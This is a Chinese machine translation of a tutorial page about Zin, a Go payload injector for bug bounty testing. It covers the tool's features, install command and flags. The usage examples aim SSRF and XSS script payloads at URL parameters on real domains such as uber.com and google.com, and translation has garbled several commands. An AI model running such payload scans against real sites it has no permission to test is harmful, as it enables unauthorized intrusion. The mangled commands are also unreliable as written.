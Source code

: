 # Zin:一个用 Go 编写的 Bugbounties 的有效载荷注入器

> 原文：<https://kalilinuxtutorials.com/zin/>

[![Zin : A Payload Injector For Bugbounties Written In Go](img/f91a001f9a4ae60ff730234adffb92ea.png "Zin : A Payload Injector For Bugbounties Written In Go")](https://1.bp.blogspot.com/-aBp8kx_pb_E/X2icqkNA5kI/AAAAAAAAHlI/OIBOJrvce4QoTHTRHxMrjBbZzHh-KPidQCLcBGAsYHQ/s728/Zin.png)

**Zin** 是用 Go 写的 Bugbounties 的有效载荷注入器。

![](img/57d2fd14a74c910ebc325a150ab41363.png)

**特性**

*   将多个有效负载注入所有参数
*   将单个有效负载注入所有参数
*   将响应保存到输出文件夹中
*   显示状态代码和响应长度
*   能在回应中寻找模式
*   非常快
*   易于设置

**安装**

`**$ go get -u github.com/ethicalhackingplayground/Zin**`

**新功能**

*   响应中的模式匹配
*   匹配状态代码

**自变量**

**愿奖金到来**
-c int
并发性(默认为 20)
-g string
grep 任何匹配的响应
-p string
要使用的有效载荷
-pL string
要使用的有效载荷列表
-s int
按状态代码过滤(默认为 200)

*   **SSRF 例子**

**$ sub finder uber.com | gau | grep " = http " | Zin-c 80-p http://10 . 82 . 214 . 84:31386/foobar . js-g " SUP3R _ s 3c ret _ 1337 _ K3y "**

*   **XSS 例子**

**$ sub finder uber.com | gau | Zin-c80-p ' "><脚本>警戒(matchforthis)脚本> ' -g "matchforthis"**

*   **注入多个有效载荷**

**$ cat hosts | gau | grep "&" | Zin-c80-pL<payloadfile>**

*   **子域扫描**

**$ sub finder-dL domains–silent | gau | Zin-c80-p<有效载荷>**

*   **仅测试参数**

**$ echo“Google . com”| gau | grep”&“| Zin-c 80-p”>“T4”脚本>alert(match this)</脚本<”-g“match this”**

*   **多个主机**

**$ cat hosts | gau | Zin -c 80 -p <有效载荷>**

[**Download**](https://github.com/ethicalhackingplayground/Zin)